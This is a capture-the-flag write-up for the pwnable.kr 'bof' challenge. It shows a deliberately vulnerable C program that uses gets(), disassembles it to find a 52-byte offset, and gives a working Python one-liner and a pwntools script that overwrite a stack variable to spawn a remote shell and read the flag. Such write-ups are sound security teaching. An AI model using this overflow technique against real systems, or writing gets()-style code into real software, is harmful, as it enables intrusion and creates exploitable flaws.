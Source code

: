 # bof

pwnable.kr attribution: this challenge comes from <https://pwnable.kr>, and I may reproduce parts of the challenge as visible from there for easier reference.

This is the first level where we don't use `ssh`.

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

Downloading `bof.c` gives us

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Our goal (as alluded to by the title and hint) is to exploit this using a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack. Note the use of `gets` in the file. `gets` is deprecated and insecure, as the `man` page for `gets(3)` says on my computer:

```
DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

```
BUGS
       Never use gets().  Because it is impossible to tell without knowing the
       data in advance how many characters gets() will read, and because gets()
       will continue to store characters  past  the  end  of the buffer, it is
       extremely dangerous to use.  It has been used to break computer
       security.  Use fgets() instead.

       For more information, see CWE-242 (aka "Use of Inherently Dangerous
       Function") at http://cwe.mitre.org/data/definitions/242.html
```

Now, let's examine the executable to figure out more about the stack layout.

```
$ wget "http://pwnable.kr/bin/bof"  
$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

We have a 32-bit executable, so `key` should appear on the stack right above the return address (on Linux for a 64-bit executable, we'd expect key to be in `%edi`). Looking at the disassembly, we get

```
$ objdump --disassemble=func bof 

bof:     file format elf32-i386


Disassembly of section .init:

Disassembly of section .plt:

Disassembly of section .text:

0000062c <func>:
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp
 632:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
 638:   89 45 f4                mov    %eax,-0xc(%ebp)
 63b:   31 c0                   xor    %eax,%eax
 63d:   c7 04 24 8c 07 00 00    movl   $0x78c,(%esp)
 644:   e8 fc ff ff ff          call   645 <func+0x19>
 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>
 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
 65b:   75 0e                   jne    66b <func+0x3f>
 65d:   c7 04 24 9b 07 00 00    movl   $0x79b,(%esp)
 664:   e8 fc ff ff ff          call   665 <func+0x39>
 669:   eb 0c                   jmp    677 <func+0x4b>
 66b:   c7 04 24 a3 07 00 00    movl   $0x7a3,(%esp)
 672:   e8 fc ff ff ff          call   673 <func+0x47>
 677:   8b 45 f4                mov    -0xc(%ebp),%eax
 67a:   65 33 05 14 00 00 00    xor    %gs:0x14,%eax
 681:   74 05                   je     688 <func+0x5c>
 683:   e8 fc ff ff ff          call   684 <func+0x58>
 688:   c9                      leave
 689:   c3                      ret
```

The important parts of this for the stack layout are

```
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp

 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>

 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
```

We know that `%ebp` stores the base pointer for the stack frame (approximately `%esp` on entry). The `lea` tells us that `buf` stats `0x2c` below `%ebp`, and the `cmpl` tells us that `key` is at `0x8` above `%ebp`. So, on `stdin`, we need to put 0x8 + 0x2c = 0x34 (52) of any character followed by `0xcafebabe` (in little-endian order). There are many ways to express this, but a quick "one liner" is

`$ (python3 -c 'import sys; sys.stdout.buffer.write(b"0" * 0x34 + 0xcafebabe.to_bytes(4, "little") + b"\n")'; cat) | nc pwnable.kr 9000`

Some notes:

* We use the `-c` flag of python to run the command we specify without launching a REPL or writing a script.
* We write using `bytes` instead of a string, so we can be very sure of the number of bytes written/encoding used (note that we use `sys.stdout.buffer.write` instead of `print`)
* We use the subshell with `python` and `cat` so that we can interact with the program after the exploit has run (when we should be in the shell (note the call to `execve("/bin/sh")`).
* We include a trailing newline so that the `gets` call terminates.

An equivalent script using [`pwntools`](https://github.com/Gallopsled/pwntools) could look something like

```python3
from pwn import *
context(arch='i386', os='linux')

r = remote('pwnable.kr', 9000)
r.sendline(b"0" * 0x34 + p32(0xcafebabe))
r.interactive()
```

Then, in interactive (note using interactive mode both gives us a shell we can use to look around in and avoids the problem where we'd otherwise have to make sure part of the exploit goes to the `gets` and the other part happens after the `execve`),

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
```

To expand upon later:

* Disassembly/why look at executable and source code
* Disassemble vs decompile
* Manual decomp
* Full stack frame
* What `%gs:0x14` is/stack canaries
* TCP/sockets/pwntools
